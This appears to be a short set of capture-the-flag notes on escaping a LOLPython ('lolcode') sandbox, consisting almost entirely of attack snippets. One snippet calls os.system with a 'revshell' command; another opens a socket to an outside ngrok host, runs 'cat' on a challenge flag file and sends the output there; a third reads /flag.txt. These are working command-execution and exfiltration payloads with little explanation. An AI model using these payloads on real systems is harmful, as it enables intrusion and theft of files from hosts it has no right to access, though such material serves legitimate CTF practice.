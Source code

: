 ## Python lolcode
Simple 
```
IN MAI os GIMME system LIKE exc F CAN HAS exc WIT "revshell"
```
Execute Commands
```
GIMME socket 
GIMME os
sock CAN HAS socket OWN socket THING BTW WIT socket.AF_INET AND socket.SOCK_STREAM! 
host CAN HAS "6.tcp.ngrok.io"
port CAN HAS 11064
data CAN HAS os OWN popen WIT "cat /opt/challenge/flag.txt "! OWN read THING
sock OWN connect WIT WIT host AND port!!
sock OWN send WIT data OWN encode THING !
```
Read a local file
```
F CAN HAS open WIT "/flag.txt"!
S CAN HAS F OWN read THING
VISIBLE S
```